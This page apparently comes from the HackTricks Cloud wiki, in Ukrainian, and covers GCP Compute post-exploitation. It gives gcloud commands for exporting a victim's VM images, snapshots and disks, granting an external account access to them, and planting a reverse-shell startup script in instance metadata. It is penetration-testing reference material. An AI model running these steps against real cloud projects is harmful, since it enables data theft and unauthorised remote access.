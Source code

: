 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережі) перегляньте:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Експорт та перевірка зображень локально

Це дозволить зловмиснику **отримати доступ до даних, що містяться в уже існуючих зображеннях** або **створити нові зображення працюючих ВМ** та отримати доступ до їхніх даних без доступу до працюючої ВМ.

Можливо експортувати зображення ВМ до бакету, а потім завантажити його та змонтувати локально за допомогою команди:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Перед виконанням цієї дії зловмисник може потребувати привілеїв над сховищем та, безумовно, **привілеїв над cloudbuild**, оскільки це **сервіс**, який буде запитано для виконання експорту\
Більше того, для цього кодування SA та SA обчислень потребують привілейованих дозволів.\
SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` потребує:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

А SA `<project-id>-compute@developer.gserviceaccount.com` потребує:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Експорт та перевірка знімків та дисків локально

Неможливо безпосередньо експортувати знімки та диски, але можливо **перетворити знімок у диск, диск в образ** і, слідуючи **попередньому розділу**, експортувати цей образ для перевірки його локально

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Інспекція зображення, створюючи VM

З метою доступу до **даних, збережених у зображенні** або всередині **працюючої VM**, з якої зловмисник **створив зображення,** можливо надати зовнішньому обліковому запису доступ до зображення:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
і потім створіть нову VM з цього:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Якщо ви не могли надати доступ до вашого зовнішнього облікового запису через образ, ви могли б запустити ВМ, використовуючи цей образ у проекті жертви, і **змусити метадані виконати зворотне з'єднання** для доступу до образу, додавши параметр:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

З метою доступу до **даних, збережених на диску або знімку, ви можете перетворити знімок на диск, диск на образ і слідувати попереднім крокам.**

Або ви можете **надати зовнішньому обліковому запису доступ** до диска (якщо початковою точкою є знімок, надайте доступ до знімка або створіть диск з нього):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Прикріпіть диск** до екземпляра:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Монтуйте диск всередині VM:

1.  **SSH до VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Визначте диск**: Після входу до VM визначте новий диск, перерахувавши пристрої дисків. Зазвичай ви можете знайти його як `/dev/sdb`, `/dev/sdc` тощо.
3. **Форматування та монтування диска** (якщо це новий або сирий диск):
*   Створіть точку монтування:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Замонтуйте диск:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Якщо ви **не можете надати доступ до зовнішнього проекту** до знімка або диска, вам, можливо, потрібно буде **виконати ці дії всередині екземпляра в тому ж проекті, що й знімок/диск**.

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
